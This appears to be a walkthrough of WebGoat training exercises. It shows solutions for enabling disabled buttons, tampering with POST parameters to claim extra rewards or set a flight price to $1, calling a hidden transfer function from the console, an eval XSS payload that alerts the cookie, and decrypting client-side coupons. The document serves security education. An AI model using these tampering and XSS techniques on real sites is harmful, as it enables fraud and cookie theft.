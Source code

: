 # DOM Injection

Using Chrome 'inspect element' edit the html code for disabled button by removing `disabled=""` and the button is now enabled.

---

# XML Injection

After submitting the given account ID, you will observe that the account balance seem to only review the first 3 rewards (out of total 5). If you check all items and submit them, intercept with burp (or other HTTP intercept tool) you could see the following POST parameters

```
accountID=836239&check1001=on&check1002=on&check1003=on&SUBMIT=Submit
```

Modify the request to include the other 2 rewards (assuming that the naming convention used is in sequential numbering eg. 1001,1002,1003,1004,1005)

```
accountID=836239&check1001=on&check1002=on&check1003=on&check1004=on&check1005=on&SUBMIT=Submit
```

---

# JSON Injection

From: 'BOS'

To: 'SEA'

You will see there are 2 radio buttons, select the one with 0 stops priced at $600 and click submit with burp (or other HTTP intercept tools)

`travelFrom=BOS&travelTo=SEA&radio0=on&SUBMIT=Submit&price2Submit=%24600`

We observe that it is submitting `%24600` which translates to `$600`. Modify the following to make the flight priced cheaper (real cheap at $1!)

`travelFrom=BOS&travelTo=SEA&radio0=on&SUBMIT=Submit&price2Submit=%241`

---

# Silent Transactions Attack

When intercepting HTTP you will notice that GET request is made with all parameters shown eg.

```
GET /WebGoat/attack?Screen=144&menu=400&from=ajax&newAccount=test&amount=123&confirm=Transferring
```

To submit data silently, using Chrome 'Inspect element' and click 'Console' tab and issue `javascript:` and you should see one of the autocompleted commands is `javascript:submitData()`. If you enter it, below is the result

```javascript
javascript:submitDatasubmitData(accountNo, balance) {var url = 'attack?Screen=144&menu=400&from=ajax&newAccount='+ accountNo+ '&amount=' + balance +'&confirm=' + document.getElementById('confirm').value; 
```

We can observe from this function `submitData()` requires 2 parameters which seems like what is the account number and balance amount to transfer. Issue the following command in console.

```javascript
javascript:submitData(123,999999999999999)
```

---

# Dangerous Use of Eval

We can get XSS for appending this to `Enter your three digit access code:`

```javascript
');alert(document.cookie);('
```

---

# Insecure Client Storage

## Stage 1

`Inspect` > `Sources` check javascript folder `clientSideValidation.js`. The Coupons required are actually found below, but they are 'encrypted'. To 'decrypt' the coupons, simply copy the whole block of codes into your developer tool's `console`

```javascript
var coupons = ["nvojubmq",
"emph",
"sfwmjt",
"faopsc",
"fopttfsq",
"pxuttfsq"];

function isValidCoupon(coupon) {
    coupon = coupon.toUpperCase();
    for(var i=0; i<coupons.length; i++) {
        decrypted = decrypt(coupons[i]);  //<-------- HOW TO DECRYPT HERE!!!
        if(coupon == decrypted){
            ajaxFunction(coupon);
            return true;
        }
    }
    return false;   
}

function decrypt(code){
    code = code.toUpperCase();
    alpha = "ABCDEFGHIJKLMNOPQRSTUVWXYZ";
    caesar = '';

    for (i = code.length ;i >= 0;i--){  
        for (j = 0;j<alpha.length;j++){     
            if(code.charAt(i) == alpha.charAt(j)){
                caesar = caesar + alpha.charAt((j+(alpha.length-1))%alpha.length);
            }       
        }
    }   
    return caesar;
}
```

Now run the command `decrypted = decrypt(coupons[0]);` ... `decrypted = decrypt(coupons[4]);`

![](/WebGoat/screens/coupons.png)

## Stage 2

After applying the coupons, update quantity of items and see the total cost add up with the coupon discount being applied. Then right click the value of total cost and select `Inspect` , now modify the value to `$0.0` and click `Purchase` button. 

![](/WebGoat/screens/free.png)


